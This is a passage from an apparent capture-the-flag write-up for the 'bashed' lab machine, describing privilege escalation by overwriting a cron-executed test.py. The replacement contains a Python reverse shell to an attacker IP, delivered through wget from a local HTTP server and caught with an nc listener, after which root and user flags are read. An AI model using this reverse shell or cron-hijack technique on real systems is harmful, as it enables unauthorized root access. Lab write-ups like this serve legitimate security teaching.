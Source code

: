 test.txt has a new timestamp of 14:07, meaning there is a cron job or some scheduled task that is running test.py every minute or so. Since user scriptmanager owns test.py, we can modify test.py and when the cron job runs as root we can gain a root shell!

On our Kali machine we create a new python file and put this code in it. Again you will need to input your own IP address and port on the "s.connect(( ))" line:

test.py:

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.24",17012))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash","-i"])

On Kali, we need to run python's HTTP server to serve the current directory via HTTP:

    python -m SimpleHTTPServer 8080

Over on bashed we execute a wget command to download the test.py file:
    
    wget http://10.10.14.24:8080/test.py

![](/images/bashed/21. wget.png "wget")

Next we set up a nc listener on Kali to catch the connection:

    nc -lvnp 17012

Then we need to replace the old test.py with our new test.py.1:

    mv test.py.1 test.py

![](/images/bashed/22. mv_test.py.1.png "mv test.py.1")

Now we wait a minute and in our Kali nc listener we should see:

![](/images/bashed/23. nc_listener_2.png "nc connection")

    whoami

![](/images/bashed/24. whoami.png "whoami")

Success! We are root.  Now let's get our flags:

    cat /home/arrexel/user.txt

    cat /root/root.txt

![](/images/bashed/25. flags.png "flags")

And there we have our flags.

<p>&nbsp;</p>
=======================================================

## Final Code
